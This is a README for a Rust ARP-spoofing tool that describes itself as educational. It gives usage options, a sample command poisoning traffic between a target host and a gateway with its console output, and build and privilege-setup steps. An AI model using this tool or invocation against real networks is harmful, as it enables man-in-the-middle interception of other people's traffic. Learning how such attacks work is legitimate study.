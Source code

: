 # arp-spoof


This is a minimal ARP-Spoofing tool written in **Rust language** using pcap.

This tool allows intercepting Ipv4 traffic between two hosts on the same network.
Typically, between one machine and the internet gateway.

Please note, this tool was created to get comfortable with Rust, so the code isn't necessarily optimal nor idiomatic.

**This tool is for educational purposes only.**

## Features:

* 1 to 1 route poisoning
* save intercepted traffic as pcap file
* automatic Ipv4 forwarding

# Usage
```
Usage:
    ./arp-spoof [OPTIONS]

Minimal ARP spoofing tool written in Rust.

optional arguments:
  -h,--help             show this help message and exit
  -i,--interface INTERFACE
                        interface name
  --target TARGET       target ipv4 address
  --gateway GATEWAY     gateway ipv4 address
  --log-traffic         logs all target traffic to `save.pcap`
  -n,--no-forward       leave `/proc/sys/net/ipv4/ip_forward` untouched
  -V,--version          show version
```
A typical invocation would look like this. The arguments are pretty self-describing.
```
# ./arp-spoof --interface eth0 --own 192.168.0.100 --target 192.168.0.16 --gateway 192.168.0.1 --log-traffic
[*] Using device eth0 ...
 -> ip address: 192.168.0.100
 -> mac address: 95:8F:6F:17:36:71
 -> connection_status: Connected
[+] forwarding ipv4 traffic: true
[*] Resolving hosts (this can take a bit) ...
 -> found 7E:FA:8B:B2:F5:8A at 192.168.0.16
 -> found 7C:0B:B6:94:11:6B at 192.168.0.1
[*] Saving captured packets as save.pcap ...
[+] Poisoning traffic between 192.168.0.16 <==> 192.168.0.1
[*] Received: 274, dropped: 0, if_dropped: 0
[*] Received: 518, dropped: 0, if_dropped: 0
```
# Building

```
# cargo build --release
# ./target/release/arp-spoof --help
```
Tested with rust 1.68.0.


## Linux

On Arch based Linux, install `community/rust`, `community/cargo` and `core/libpcap`. If not running as root, you need to set capabilities like so: ```sudo setcap cap_net_raw,cap_net_admin=eip path/to/bin```

# TODO:

* implement `n` to `m` route poisoning
